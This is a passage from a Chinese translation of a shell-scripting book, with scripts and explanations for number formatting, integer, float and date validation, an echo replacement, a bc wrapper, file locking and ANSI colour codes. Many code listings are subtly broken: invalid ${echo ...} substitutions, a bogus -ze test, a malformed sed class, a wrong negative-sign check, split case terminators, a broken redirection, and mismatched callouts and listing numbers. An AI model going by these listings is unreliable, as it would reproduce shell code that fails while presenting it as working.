该脚本的核心是`nicenumber()`函数中的`while`循环 ❶，它迭代地从变量`thousands` ❷存储的数值中移除三个最低有效位，并将这些数字附加到正在构建的数字美化版本中 ❸。然后，循环会减少`thousands` ❹中存储的数字，并在必要时再次将其送入循环。一旦`nicenumber()`函数执行完毕，主脚本逻辑开始运行。首先，它使用`getopts` ❺解析传递给脚本的任何选项，最后调用`nicenumber()`函数 ❻并传入用户指定的最后一个参数。

### 运行脚本

要运行此脚本，只需指定一个很大的数值。脚本将根据需要添加小数点和分隔符，使用默认值或通过标志指定的字符。

结果可以整合在输出消息中，如下所示：

```bash
echo "Do you really want to pay $\$($(nicenumber $price))"
```

### 结果

`nicenumber` shell脚本易于使用，但也支持一些高级选项。代码清单 1-8 展示了使用该脚本格式化几个数字的情况。

```bash
$ nicenumber 5894625
5,894,625
$ nicenumber 589462532.433
589,462,532.433
$ nicenumber -d, -t. 589462532.433
589.462.532,433
```

代码清单 1-8：测试`nicenumber`脚本

### 改进脚本

不同国家使用不同的千位分隔符和小数点分隔符，因此我们可以为该脚本添加灵活的调用标志。例如，德国人和意大利人会使用`-d "."`和`-t ","`，法国人使用`-d ","`和`-t "."`，而拥有四种国家语言的瑞士人则使用`-d "'"`和`-t " "`。这是一个很好的例子，说明了在某些情况下，“灵活”比“硬编码”更好，这样工具才能服务于尽可能广泛的用户群体。

另一方面，我们将输入值的小数分隔符硬编码为了`"."`，因此如果你预见到分数输入值使用不同的分隔符，你可以更改 ❶ 和 ❷ 处目前指定`"."`为小数分隔符的两处`cut`调用。

以下代码显示了一个解决方案：

```bash
integer=$(echo $1 | cut "-d$D" -f1)  # Left of the decimal
decimal=$(echo $1 | cut "-d$D" -f2)  # Right of the decimal
```

这段代码可以工作，除非输入中的小数分隔符与为输出指定的分隔符不同，在这种情况下，脚本会静默崩溃。一个更成熟的解决方案是在这两行之前添加一个测试，以确保输入的小数分隔符与用户请求的一致。我们可以通过使用第 15 页脚本 #2 中显示的相同技巧来实现此测试：删掉所有数字，看看还剩下什么，如下代码所示：

```bash
separator=$(echo $1 | sed 's/[^digit:]]//g')
if [ ! -z "$separator" -a "$separator" != "$D" ]; then
  echo "$0: Unknown decimal separator $separator encountered." >&2
  exit 1
fi
```

## 5 验证整数输入

正如你在第 15 页的脚本 #2 中看到的，验证整数输入似乎很简单，直到你想要确保负值也能被接受。问题在于，每个数值只能有一个负号，且必须出现在数值的最前面。代码清单 1-9 中的验证例程确保负数格式正确，而且更通用的是，它可以检查数值是否在用户指定的范围内。

### 代码

```bash
#!/bin/bash
# validint--Validates integer input, allowing negative integers too

validint()
{
    # Validate first field and test that value against min value $2 and/or
    # max value $3 if they are supplied. If the value isn't within range
    # or it's not composed of just digits, fail.

    number="$1";    min="$2";    max="$3"

    if [ -z $number ]; then
      echo "You didn't enter anything. Please enter a number." >&2
      return 1
    fi

    # Is the first character a '-' sign?
    if [ "${number#?}" == "-" ]; then
      testvalue="${number#?}" # Grab all but the first character to test.
    else
      testvalue="$number"
    fi

    # Create a version of the number that has no digits for testing.
    nodigits=$(echo $testvalue | sed 's/[[:digit:]]//g')

    # Check for nondigit characters.
    if [ ! -z $nodigits ] ; then
        echo "Invalid number format! Only digits, no commas, spaces, etc." >&2
        return 1
    fi

    if [ ! -z $min ] ; then
        # Is the input less than the minimum value?
        if [ "$number" -lt "$min" ] ; then
            echo "Your value is too small: smallest acceptable value is $min." >&2
            return 1
        fi
        if [ ! -z $max ] ; then
            # Is the input greater than the maximum value?
            if [ "$number" -gt "$max" ] ; then
                echo "Your value is too big: largest acceptable value is $max." >&2
                return 1
            fi
        fi
    fi
    return 0
}
```

代码清单 1.9：`validint`脚本

### 工作原理

验证整数相当直接，因为数值要么仅仅是一系列数字（0 到 9），要么可能带有一个只能出现一次的前导负号。如果调用`validint()`函数时提供了最小值或最大值（或两者都提供），它还会对照这些值进行检查，以确保输入的值在范围内。

该函数在 ➊ 处确保用户没有完全跳过输入（这是另一个关键点：使用引号预判空字符串的可能性，以确保我们不会产生错误消息）。然后在 ➋ 处查找负号，并在 ➌ 处创建一个删除了所有数字的输入值版本。如果该值的长度不为零，则说明有问题，测试失败。

如果值有效，则将用户输入的数字与最小值和最大值 ❹ 进行比较。最后，函数在出错时返回 1，在成功时返回 0。

### 运行脚本

整个脚本都是一个函数，可以被复制到其他 shell 脚本中，或者作为库文件包含进来。要将其转换为一个命令，只需将代码清单 1-10 中的代码附加到脚本的末尾即可。

```bash
# Input validation
if validint "$1" "$2" "$3" ; then
echo "Input is a valid integer within your constraints."
fi
```

代码清单 1-10：为`validint`添加支持以其作为命令运行

### 运行结果

将代码清单 1-10 放入脚本后，你应该能够像代码清单 1-11 所示那样使用它：

```bash
$ validint 1234.3
Invalid number format! Only digits, no commas, spaces, etc.
$ validint 103 1 100
Your value is too big: largest acceptable value is 100.
$ validint -17 0 25
Your value is too small: smallest acceptable value is 0.
$ validint -17 -20 25
Input is a valid integer within your constraints.
```

代码清单 1-11：测试`validint`脚本

### 深入解析脚本

注意 ❷ 处的测试检查了数字的第一个字符是否为负号：

```bash
if [ "${number%#${number#?}}" = "-" ] ; then
```

如果第一个字符是负号，`testvalue`将被赋值为整数值的数字部分。随后，这个非负值会被剥离数字并进一步测试。

你可能会想使用逻辑与（`-a`）来连接表达式，从而缩减一些嵌套的`if`语句。例如，这段代码看起来应该是可以工作的：

```bash
if [ ! -z $min -a "$number" -lt "$min" ] ; then
echo "Your value is too small: smallest acceptable value is $min." >&2
exit 1
fi
```

然而，它并不能正常工作，因为即使 AND 表达式的第一个条件被证明为假，你也无法保证第二个条件不会被测试（这与大多数其他编程语言不同）。这意味着如果你尝试这样做，很可能会因为无效或意外的比较值而遇到各种 Bug。虽然这不应该是这样，但这就是 shell脚本的特点。

## 6 验证浮点数输入

乍一看，在 shell脚本的限制和能力范围内验证浮点数（或“实数”）值可能看起来很困难，但请考虑：浮点数只是由小数点分隔的两个整数。将这一见解与内联引用另一个脚本（`validint`）的能力相结合，你会发现浮点数验证测试可以出乎意料地简短。代码清单 1-12 中的脚本假设它与`validint`脚本运行在同一个目录下。

### 代码实现


```bash
#!/bin/bash

# validfloat--Tests whether a number is a valid floating-point value.
# Note that this script cannot accept scientific (1.304e5) notation.

# To test whether an entered value is a valid floating-point number,
# we need to split the value into two parts: the integer portion
# and the fractional portion. We test the first part to see whether
# it’s a valid integer, and then we test whether the second part is a
# valid >0 integer. So -30.5 evaluates as valid, but -30.-8 doesn’t.

# To include another shell script as part of this one, use the "." source
# notation. Easy enough.

. validint

validfloat()
{
    fvalue="$1"

    # Check whether the input number has a decimal point.
    if [ ! -z ${echo $fvalue | sed 's/[^.]//g'} ] ; then

    # Extract the part before the decimal point.
    decimalPart="${echo $fvalue | cut -d. -f1}"

    # Extract the digits after the decimal point.
    fractionalPart="${fvalue#*.}"

    # Start by testing the decimal part, which is everything
    # to the left of the decimal point.

    if [ ! -ze $decimalPart ] ; then
        # "!" reverses test logic, so the following is
        # "if NOT a valid integer"
        if ! validint "$decimalPart" "" "" ; then
            return 1
        fi
    fi

    # Now let's test the fractional value.

    # To start, you can't have a negative sign after the decimal point
    # like .31--11, so let's test for the '-' sign in the decimal.
    if [ "${fractionalPart#${fractionalPart#?}}" = "-" ] ; then
        echo "Invalid floating-point number: '-' not allowed \
after decimal point." >&2
        return 1
    fi
    if [ "$fractionalPart" != "" ] ; then
        # If the fractional part is NOT a valid integer...
        if ! validint "$fractionalPart" "0" "" ; then
            return 1
        fi
    fi
    else
        # If the entire value is just "-", that's not good either.
        if [ "$fvalue" = "-" ] ; then
            echo "Invalid floating-point format." >&2
            return 1
        fi

        # Finally, check that the remaining digits are actually
        # valid as integers.
        if ! validint "$fvalue" "" "" ; then
            return 1
        fi
    fi

    return 0
}
```

代码清单 1-12：`validfloat` 脚本

### 工作原理

脚本首先检查输入值是否包含小数点 ➊。如果不包含，它就不是浮点数。接下来，将值的整数部分 ➋ 和小数部分 ➌ 截取出来进行分析。然后在 ➌ 处，脚本检查整数部分（小数点左侧的数字）是否为有效的整数。接下来的序列更复杂，因为我们需要在 ➍ 处检查是否存在额外的负号（以避免像 `17. −30` 这样奇怪的情况），然后再次确保小数部分（小数点右侧的数字）是一个有效的整数。

最后在 Ⓐ 处的检查是：用户是否仅指定了一个负号和一个小数点（你得承认，这相当离奇）。一切正常吗？那么脚本返回 `0`，表明用户输入了一个有效的浮点数。

### 运行脚本

如果调用函数时没有产生错误消息，则返回码为 `0`，且指定的数字是一个有效的浮点数值。你可以通过将以下几行代码附加到代码末尾来测试此脚本：

```bash
if validfloat $1 ; then
    echo "$1 is a valid floating-point value."
fi

exit 0
```

如果 `validint` 产生错误，请确保它已在你的 `PATH` 中，作为一个可供脚本访问的独立函数，或者直接将其复制粘贴到脚本文件中。

### 运行结果

`validfloat` shell 脚本只需接收一个参数尝试进行验证。代码清单 1-13 使用 `validfloat` 脚本验证了一些输入。

```bash
$ validfloat 1234.56
1234.56 is a valid floating-point value.
$ validfloat -1234.56
-1234.56 is a valid floating-point value.
$ validfloat -.75
-.75 is a valid floating-point value.
$ validfloat -11.-12
Invalid floating-point number: '-' not allowed after decimal point.
$ validfloat 1.034e4422
Invalid number format! Only digits, no commas, spaces, etc.
```

代码清单 1-13：测试 `validfloat` 脚本

如果你此时看到了额外的输出，可能是因为你之前添加了几行来测试 `validint`，但在进入这个脚本时忘记删除它们了。只需回到第 23 页的脚本 #5，确保让你将函数作为独立程序运行的最后几行已被注释掉或删除。

### 深入解析脚本

一个很酷的额外技巧是将此函数扩展到支持科学计数法，如最后一个示例所示。这并不太难。你需要测试是否存在 `'e'` 或 `'E'`，然后将结果分成三个部分：整数部分（始终是单个数字）、小数部分和 10 的幂。然后你只需要确保每一部分都是 `validint` 即可。

如果你不想要求小数点前必须有领先的零，你也可以修改代码清单 1-12 中 ⓿ 处的条件测试。不过，请小心处理奇怪的格式。

## 7 验证日期格式

最具有挑战性的验证任务之一，但对于处理日期的 shell 脚本至关重要，就是确保特定的日期在日历上确实是可能的。如果我们忽略闰年，这个任务并不太难，因为日历每年都是一致的。在这种情况下，我们只需要一张包含每月最大天数的表格来与指定日期进行比较。要将闰年考虑在内（这是必须的），需要向脚本添加一些额外的逻辑，这就是事情变得复杂的地方。

测试给定年份是否为闰年的一组规则如下：

- 不能被 4 整除的年份**不是**闰年。
- 能被 4 整除且能被 400 整除的年份**是**闰年。
- 能被 4 整除，不能被 400 整除，但能被 100 整除的年份**不是**闰年。
- 所有其他能被 4 整除的年份**是**闰年。

在阅读代码清单 1-14 的源代码时，请注意此脚本如何利用 `normdate` 在继续操作之前确保日期格式的一致性。

### 代码实现

```bash
#!/bin/bash
# valid-date--Validates a date, taking into account leap year rules

normdate="whatever you called the normdate.sh script"

exceedsDaysInMonth()
{
    # Given a month name and day number in that month, this function will
    # return 0 if the specified day value is less than or equal to the
    # max days in the month; 1 otherwise.

    case ${echo $1[tr '[:upper:]' '[:lower:]']} in
    jan* ) days=31   ;; feb* ) days=28   ;;
    mar* ) days=31   ;; apr* ) days=30   ;;
    may* ) days=31   ;; jun* ) days=30   ;;
```

```bash
		jul* ) days=31 		;; 	 aug* ) days=31 		;;
		sep* ) days=30 		;; 	 oct* ) days=31 		;;
		nov* ) days=30 		;; 	 dec* ) days=31 		;;
		* ) echo "$0: Unknown month name $1" >&2
			exit 1

	esac
	if [ $2 -lt 1 -o $2 -gt $days ] ; then
		return 1
	else
		return 0 # The day number is valid.
	fi
}
```

```bash
isLeapYear()
{
	# This function returns 0 if the specified year is a leap year;
	# 1 otherwise.
	# The formula for checking whether a year is a leap year is:
	# 1. Years not divisible by 4 are not leap years.
	# 2. Years divisible by 4 and by 400 are leap years.
	# 3. Years divisible by 4, not divisible by 400, but divisible
	#    by 100 are not leap years.
	# 4. All other days divisible by 4 are leap years.

	year=$1
	if [ "$(($year % 4))" -ne 0 ] ; then
		return 1 # Nope, not a leap year.
	elif [ "$(($year % 400))" -eq 0 ] ; then
		return 0 # Yes, it's a leap year.
	elif [ "$(($year % 100))" -eq 0 ] ; then
		return 1
	else
		return 0
	fi
}
```

```bash
# BEGIN MAIN SCRIPT
# ===================

if [ $# -ne 3 ] ; then
	echo "Usage: $0 month day year" >&2
	echo "Typical input formats are August 3 1962 and 8 3 1962" >&2
	exit 1
fi

# Normalize date and store the return value to check for errors.

newdate="$(normdate "$@")"

if [ $? -eq 1 ] ; then
	exit 1	# Error condition already reported by normdate
fi

# Split the normalized date format, where
# first word = month, second word = day, third word = year.

month="$(echo $newdate | cut -d\ -f1)"
day="$(echo $newdate | cut -d\ -f2)"
year="$(echo $newdate | cut -d\ -f3)"

# Now that we have a normalized date, let's check whether the
# day value is legal and valid (e.g., not Jan 36).

if ! exceedsDaysInMonth $month "$2" ; then
    if [ "$month" = "Feb" -a "$2" -eq "29" ]; then
        if ! isLeapYear $3 ; then
            echo "$3 is not a leap year, so Feb doesn't have 29 days." >&2
            exit 1
        fi
    else
        echo "$0: bad day value: $month doesn't have $2 days." >&2
        exit 1
    fi
fi

echo "Valid date: $newdate"

exit 0
```

示例 1-14：`valid-date` 脚本

### 工作原理

编写这个脚本很有趣，因为它需要对月份天数、闰年等进行相当多且智能的条件测试。逻辑不仅仅是指定 `month = 1–12, day = 1–31` 等。为了组织良好，我们使用了特定的函数，使编写和理解都变得更容易。

首先，`exceedsDaysInMonth()` 解析用户指定的月份，分析过程非常宽松（这意味着输入 JANUAR 也能正常工作）。这是在 ❶ 处通过一个 `case` 语句实现的，该语句将其参数转换为小写，然后比较值以确定该月的天数。这虽然可行，但它假设二月始终有 28 天。

为了处理闰年，第二个函数 `isLeapYear()` 使用一些基础数学测试来确定指定的年份是否有 2 月 29 日 ❷。

在主脚本中，输入被传递给之前介绍的 `normdate` 以标准化输入格式 ❸，然后被拆分为 `$month`、`$day` 和 `$year` 三个字段。接着调用 `exceedsDaysInMonth` 函数来检查该日期在指定月份中是否无效（例如 9 月 31 日），如果用户指定月份为二月且日期为 29 日，则触发特殊条件。然后使用 `isLeapYear` 对年份进行测试，并在 ❹ 处根据情况生成错误。如果用户输入通过了所有这些测试，那么它就是一个有效日期！

### 运行脚本

要运行该脚本（如示例 1-15 所示），请在命令行中以“月-日-年”格式输入日期。月份可以是三字母缩写、全称或数字；年份必须是四位数。

### 运行结果

```bash
$ valid-date august 3 1960
Valid date: Aug 3 1960
$ valid-date 9 31 2001
valid-date: bad day value: Sep doesn't have 31 days.
$ valid-date feb 29 2004
Valid date: Feb 29 2004
$ valid-date feb 29 2014
valid-date: 2014 is not a leap year, so Feb doesn't have 29 days.
```

示例 1-15：测试 `valid-date` 脚本

### 改进脚本

与此脚本类似的方法可以用来验证时间规范，可以使用 24 小时制或上午/下午（AM/PM）后缀。在冒号处分割数值，确保分钟和秒钟（如果指定了）在 0 到 60 之间，然后检查如果允许 `am/PM`，则第一个值在 0 到 12 之间，或者如果你偏好 24 小时制，则在 0 到 24 之间。幸运的是，虽然存在闰秒和其他微小的时间变化以保持日历平衡，但在日常使用中我们可以安全地忽略它们，因此无需担心实现如此繁琐的时间计算。

如果你在 Unix 或 GNU/Linux 实现中可以使用 GNU `date`，那么有一种截然不同的闰年测试方法。尝试指定以下命令并查看结果：

```bash
$ date -d 12/31/1996 +%j
```

如果你使用的是更新、更好的 `date` 版本，你会看到 366。在旧版本中，它只会抱怨输入格式。现在想想新版 `date` 命令的结果，看看你是否能想出一个两行的函数来测试给定年份是否为闰年！


最后，此脚本对月份名称相当宽容；`february` 可以正常工作，因为❶处的`case`语句仅检查指定单词的前三个字母。如果你愿意，可以通过测试常用缩写（如`feb`）以及全拼月份名称（`february`），甚至常见的拼写错误（`febuary`）来清理和改进它。如果你有动力，这些都很容易实现！

## #8 规避糟糕的 `echo` 实现

正如第 10 页“什么是 POSIX？”中所提到的，虽然大多数现代 Unix 和 GNU/Linux 实现都有一个知道`-n`标志应该抑制输出尾随换行符的`echo`命令版本，但并非所有实现都如此。有些使用`\c`作为特殊的嵌入字符来消除这种默认行为，而有些则坚持无论如何都要包含尾随换行符。

弄清楚你的特定`echo`是否实现良好很简单：只需输入这些命令并观察结果：

```
$ echo -n "The rain in Spain"; echo " falls mainly on the Plain"
```

如果你的`echo`支持`-n`标志，你会看到这样的输出：

The rain in Spain falls mainly on the Plain

如果没有，你会看到这样的输出：

-n The rain in Spain

falls mainly on the Plain

确保脚本输出按预期呈现给用户非常重要，并且随着我们的脚本变得越来越具有交互性，这一点将变得越来越重要。为此，我们将编写一个`echo`的替代版本，称为`echon`，它将始终抑制尾随换行符。这样，每当我们需要`echo -n`功能时，就有可靠的函数可以调用。

### 代码实现

解决这个奇怪的`echo`问题的方法和本书的页数一样多。我们最喜欢的一种方法非常简洁；它只需通过`awk printf`命令过滤输入，如示例 1-16 所示。

```
echon()
{
    echo "$*" | awk '{ printf "%s", $0 }'
}
```

示例 1-16：使用`awk printf`命令的简单`echo`替代方案

然而，你可能希望避免调用`awk`命令带来的开销。如果你有一个用户级别的`printf`命令，你可以将`echon`写成通过它来过滤输入，如示例 1-17 所示。

```
echon()
{
    printf "%s" "$*"
}
```

示例 1-17：使用简单`printf`命令的`echo`替代方案

如果你没有`printf`也不想调用`awk`怎么办？那么请使用`tr`命令切掉任何最后的回车符，就像示例 1-18 中那样。

```
echon()
{
    echo "$*" | tr -d '\n'
}
```

示例 1-18：使用`tr`工具的简单`echo`替代方案

这种方法简单高效，而且应该具有相当强的可移植性。

### 运行脚本

只需将脚本文件添加到你的`PATH`中，你就可以将任何`echo -n`调用替换为`echon`，从而在打印后可靠地将用户光标留在行尾。

### 运行结果

`echon` shell 脚本的工作原理是接收一个参数并打印它，然后读取一些用户输入以演示`echon`函数。示例 1-19 展示了测试脚本的使用情况。

```
$ echon "Enter coordinates for satellite acquisition: "
Enter coordinates for satellite acquisition: 12,34
```

示例 1-19：测试`echon`命令

### 改进脚本

我们实话实说。某些 shell 的`echo`语句知道`-n`标志，而另一些则期望`\c`作为结束序列，还有一些似乎根本没有避免添加回车符的能力，这对于脚本编写者来说是一个巨大的麻烦。为了解决这种不一致性，你可以创建一个函数来自动测试`echo`的输出，以确定处于哪种情况，然后相应地修改其调用方式。例如，你可以写类似`echo -n hi | wc -c`的内容，然后测试结果是两个字符（`hi`）、三个字符（`hi`加上一个回车符）、四个字符（`-n hi`）还是五个字符（`-n hi`加上一个回车符）。

## #9 任意精度浮点计算器

脚本编写中最常用的序列之一是`$(( ))`，它允许你使用各种基础数学函数进行计算。这个序列非常有用，可以简化诸如递增计数器变量等常见操作。它支持加法、减法、除法、取余（或模）和乘法运算，但不支持分数或小数值。因此，以下命令返回的是 0 而不是 0.5：

```
echo $(( 1 / 2 ))
```

所以，当计算需要更高精度的值时，你就面临一个挑战。命令行上并没有多少好用的计算器程序。唯一的例外是`bc`，一个很少有 Unix 用户被教过且风格古怪的程序。`bc`自称是一个任意精度计算器，它追溯到 Unix 的黎明时期，带有晦涩的错误消息，完全没有提示符，并且假设如果你在使用它，你已经知道自己在做什么。但这没关系。我们可以写一个包装脚本来让`bc`更加用户友好，如 Listing 1-20 所示。

### 代码

```bash
#!/bin/bash

# scriptbc--Wrapper for 'bc' that returns the result of a calculation

if [ "$1" = "-p" ]; then
    precision=$2
    shift 2
else
    precision=2    # Default
fi

bc -q -l << EOF
    scale=$precision
    $*
    quit
EOF

exit 0
```

Listing 1-20: `scriptbc`脚本

### 工作原理

❸处的`<<`符号允许你将脚本中的内容包含进来，并将其视为直接输入到输入流中，在这种情况下，它为向`bc`程序传递命令提供了一种简单的机制。这被称为编写“Here Document”。在这种表示法中，你在`<<`序列之后放置的任何内容，就是它随后将要匹配（且单独占一行）以表示该输入流结束的标识符。在 Listing 1-20 中，它是 EOF。

此脚本还演示了如何使用参数使命令更加灵活。在这里，如果脚本在调用时带有`-p`标志❶，它允许你指定输出数字所需的精度。如果没有指定精度，程序默认使用`scale=2`❷。

在使用`bc`时，理解 length（长度）和 scale（规模/精度）之间的区别至关重要。就`bc`而言，length 指的是数字中的总位数，而 scale 是小数点后的总位数。因此，10.25 的 length 为 4，scale 为 2；而 3.14159 的 length 为 6，scale 为 5。

默认情况下，`bc`的 length 是变量值，但因为其 scale 为零，所以未经修改的`bc`工作方式与`$(( ))`符号完全一致。幸运的是，如果你为`bc`添加 scale 设置，你会发现它内部隐藏着巨大的能力，如下例所示，该例计算了 1962 年到 2002 年之间经过了多少周（不包括闰日）：

```
$ bc
bc 1.06.95
Copyright 1991-1994, 1997, 1998, 2000, 2004, 2006 Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type 'warranty'.
scale=10
(2002-1962)*365
14600
14600/7
2085.7142857142
quit
```

为了能够从命令行访问`bc`的功能，包装脚本必须静默（屏蔽）启动时的版权信息（如果存在）——不过大多数`bc`实现如果输入端不是终端（stdin），已经会自动静默页眉。包装脚本还会将 scale 设置为一个合理的值，将实际表达式传递给`bc`程序，然后通过`quit`命令退出。

### 运行脚本

要运行此脚本，请像 Listing 1-21 所示那样，将数学表达式作为参数传递给程序。

### 运行结果

```
$ scriptbc 14600/7
2085.71
$ scriptbc -p 10 14600/7
2085.7142857142
```

Listing 1-21: 测试`scriptbc`脚本

## #10 锁定文件

任何读取或追加到共享文件（如日志文件）的脚本，都需要一种可靠的文件锁定方式，以便其他脚本实例在文件被使用完毕之前不会意外地覆盖数据。实现这一点的一种常用方法是为每个被使用的文件创建一个单独的锁文件。锁文件的存在就像一个信号量（semaphore），一个表明文件正被另一个脚本使用且不可用的指示符。请求脚本随后会重复等待并尝试，直到信号量锁文件被删除，表明该文件现在可以编辑。

然而，锁文件很棘手，因为许多看似万无一失的解决方案实际上并不可行。例如，以下代码是解决此问题的一种典型方法：

```bash
while [ -f $lockfile ]; do
    sleep 1
done
touch $lockfile
```

看起来可行，不是吗？代码会循环直到锁文件不存在，然后创建它以确保你拥有锁，从而可以安全地修改基础文件。如果另一个带有相同循环的脚本看到了你的锁，它也会一直旋转直到锁文件消失。然而，这在实践中是行不通的。想象一下，如果在`while`循环退出之后但在`touch`执行之前，该脚本被换出并放回处理器队列，给了另一个脚本运行的机会，会发生什么。

如果你不确定我们在指什么，请记住，虽然你的计算机看起来一次只做一件事，但它实际上是通过对一个程序做一点点，切换到另一个程序，再做一点点，然后切换回来，从而在同一时间运行多个程序。这里的问题是，在你的脚本完成检查锁文件到创建它自己的锁文件之间的时间段内，系统可能会切换到另一个脚本，而该脚本可能会尽职地测试锁文件，发现它不存在，然后创建自己的版本。接着那个脚本被换出，你的脚本被换回继续执行`touch`命令。结果就是这两个脚本现在都认为它们拥有对锁文件的排他性访问权，而这恰恰是我们想要避免的。

幸运的是，procmail 电子邮件过滤程序的作者 Stephen van den Berg 和 Philip Guenther 还创建了一个命令行实用程序`lockfile`，让你能够在 shell 脚本中安全可靠地处理锁文件。

许多 Unix 发行版（包括 GNU/Linux 和 OS X）已经安装了`lockfile`。你只需输入`man 1 lockfile`即可检查你的系统是否拥有`lockfile`。如果你看到了 man 手册页，那么你运气不错！Listing 1-22 中的脚本假设你拥有`lockfile`命令，且随后的脚本需要脚本 #10 的可靠锁定机制才能运行，因此请确保你的系统上安装了`lockfile`命令。

### 代码

```bash
#!/bin/bash

# filelock--A flexible file-locking mechanism

retries="10"		# Default number of retries
action="lock"		# Default action
nullcmd="true"		# Null command for lockfile

while getopts "lur:" opt; do
	case $opt in
		l ) action="lock"		; ;
		u ) action="unlock"		; ;
		r ) retries="$OPTARG"		; ;
	esac
done
shift $((OPTIND - 1))

if [ $# -eq 0 ]; then	# Output a multiline error message to stdout.
	cat << EOF >&2
Usage: $0 [-l|-u] [-r retries] LOCKFILE
Where -l requests a lock (the default), -u requests an unlock, -r X
specifies a max number of retries before it fails (default = ${retries}).
EOF
	exit 1
fi

# Ascertain if we have the lockfile command.

if [ -z "$(which lockfile | grep -v '^no')" ]; then
	echo "$0 failed: 'lockfile' utility not found in PATH." >&2
	exit 1
fi

if [ "$action" = "lock" ]; then
	if ! lockfile -l -r ${retries} "$1" 2 > /dev/null; then
		echo "$0: Failed: Couldn't create lockfile in time." >&2
		exit 1
	fi
else	# Action = unlock.
	if [ ! -f "$1" ]; then
		echo "$0: Warning: lockfile $1 doesn't exist to unlock." >&2
		exit 1
	fi
	rm -f "$1"
fi

exit 0
```

Listing 1.22: `filelock`脚本

### 工作原理

正如一个编写良好的 shell 脚本所典型的那样，Listing 1-22 的一半内容是在解析输入变量和检查错误条件。最后，它进入`if`语句，然后尝试实际使用系统的`lockfile`命令。如果该命令存在，它将调用它并指定重试次数，如果最终失败则生成自己的错误消息。如果你请求解锁（例如删除现有锁）但锁不存在会怎样？这会产生另一个错误。否则，锁文件被删除，操作完成。

更具体地说，第一个代码块❶使用强大的`getopts`函数配合`while`循环来解析所有可能的用户输入标志（`-l`、`-u`、`-r`）。这是利用`getopts`的常用方法，在本书中会反复出现。注意❷处的`shift $(( OPTIND - 1 ))`语句。`OPTIND`由`getopts`设置，它允许脚本不断将值向下移动（例如`$2`变成`$1`），直到处理完所有以短横线开头的值。

由于此脚本利用了系统`lockfile`实用程序，因此在调用之前确保该实用程序在用户的路径中是良好的做法❸，如果不是，则报错退出。然后➍处有一个简单的条件判断，以查看我们是在锁定还是解锁，并在每种情况下对`lockfile`实用程序进行相应的调用。

### 运行脚本

虽然`lockfile`脚本通常不会单独使用，但你可以通过打开两个终端窗口来测试它。要创建锁，只需将要锁定的文件名作为`filelock`的参数指定即可。要移除锁，再次运行脚本并带上`-u`标志。

### 运行结果

首先，像 Listing 1-23 所示那样创建一个锁定的文件。

```
$ filelock /tmp/exclusive.lck
$ ls -l /tmp/exclusive.lck
-r--r--r-- 1 taylor wheel 1 Mar 21 15:35 /tmp/exclusive.lck
```

Listing 1-23：使用`filelock`命令创建文件锁

当你第二次尝试锁定该文件时，`filelock`会尝试默认次数（10 次）然后失败（如 Listing 1-24 所示）：

```
$ filelock /tmp/exclusive.lck
filelock : Failed: Couldn't create lockfile in time.
```

```bash
$ filelock -u /tmp/exclusive.lck
```

代码清单 1-25：使用`filelock`脚本释放文件锁

为了观察`filelock`脚本在两个终端中的工作方式，请在一个窗口中运行解锁命令，而另一个窗口此时正在循环运行，尝试建立自己的排他锁。

### 修改脚本

因为该脚本依赖于锁文件的存在来证明锁仍在生效，所以增加一个额外的参数会很有用，例如：锁应保持有效的最长时间。如果`lockfile`例程超时，则可以检查被锁定文件的最后访问时间，如果该文件的时间早于此参数设定的值，则可以将其作为孤立文件安全地删除，并可能伴随一条警告信息。

这可能不会影响到你，但`lockfile`不支持挂载了网络文件系统（NFS）的网络驱动器。事实上，在 NFS 挂载的磁盘上实现可靠的文件锁定机制非常复杂。一个更好的策略是完全避开这个问题：仅在本地磁盘上创建锁文件，或者使用能够跨多个系统管理锁的网络感知脚本。

## #11 ANSI 颜色序列

虽然你可能没有意识到，但大多数终端应用程序都支持不同的文本呈现样式。可以实现相当多的变化，无论你是想让脚本中的某些单词以**粗体**显示，还是想在黄色背景上显示红色文字。然而，使用 ANSI（*美国国家标准协会*）序列来表示这些变化可能比较困难，因为它们对用户很不友好。为了简化它们，代码清单 1-26 创建了一组变量，其值代表 ANSI 代码，可用于开启或关闭各种颜色和格式选项。

### 代码


```bash
#!/bin/bash

# ANSI color--Use these variables to make output in different colors
# and formats. Color names that end with 'f' are foreground colors,
# and those ending with 'b' are background colors.

initializeANSI()
{
  esc="\033"  # If this doesn't work, enter an ESC control directly.

  # Foreground colors
  black="${esc}[30m";    red="${esc}[31m";    green="${esc}[32m"
  yellow="${esc}[33m";   blue="${esc}[34m";   purple="${esc}[35m"
  cyan="${esc}[36m";     white="${esc}[37m"

  # Background colors
  blackb="${esc}[40m";
  redb="${esc}[41m";
  greenb="${esc}[42m"
  yellowb="${esc}[43m"
  blueb="${esc}[44m";
  purpleb="${esc}[45m"
  cyanb="${esc}[46m";
  whiteb="${esc}[47m"

  # Bold, italic, underline, and inverse style toggles
  boldon="${esc}[1m";
  boldoff="${esc}[22m"
  italicson="${esc}[3m";
  italicsoff="${esc}[23m"
  ulon="${esc}[4m";
  uloff="${esc}[24m"
  invon="${esc}[7m";
  invoff="${esc}[27m"

  reset="${esc}[0m"
}
```

代码清单 1-2：`initializeANSI` 脚本函数

#### 工作原理

如果你习惯于 HTML，可能会对这些序列的工作方式感到困惑。在 HTML 中，你以相反的顺序打开和关闭修饰符，并且必须关闭每个打开的修饰符。因此，要在粗体显示的句子中创建一段斜体文字，你会使用以下 HTML：

> `<b>this is in bold and <i>this is italics</i> within the bold</b>`

在关闭斜体标签之前就关闭粗体标签会引发混乱，并可能弄乱某些 Web 浏览器。但在 ANSI 颜色序列中，某些修饰符实际上会覆盖之前的修饰符，并且还有一个重置序列可以关闭所有修饰符。使用 ANSI 序列时，必须确保在使用了颜色之后输出重置序列，并且对任何开启的功能使用对应的关闭特性。使用本脚本中的变量定义，你可以将之前的序列重写为：

> `${boldon}this is in bold and ${italicson}this is italics${italicsoff}within the bold${reset}`

#### 运行脚本

要运行此脚本，首先调用初始化函数，然后输出几个带有不同颜色和字体效果组合的 `echo` 语句：

```bash
initializeANSI

cat << EOF
${yellowf}This is a phrase in yellow${redb} and red${reset}
${boldon}This is bold${ulon} this is italics${reset} bye-bye
${italicson}This is italics${italicsoff} and this is not
${ulon}This is ul${uloff} and this is not
$(invon)This is inv$(inoff) and this is not
${yellowb}${redb}Warning I ${yellowb}${redf}Warning II${reset}
EOF
```

#### 运行结果

代码清单 1-27 中的结果在本书中看起来并不那么令人兴奋，但在支持这些颜色序列的显示器上，它们绝对能吸引你的注意。

```text
This is a phrase in yellow and red
This is bold this is italics bye-bye
This is italics and this is not
This is ul and this is not
This is inv and this is not
Warning I Warning II
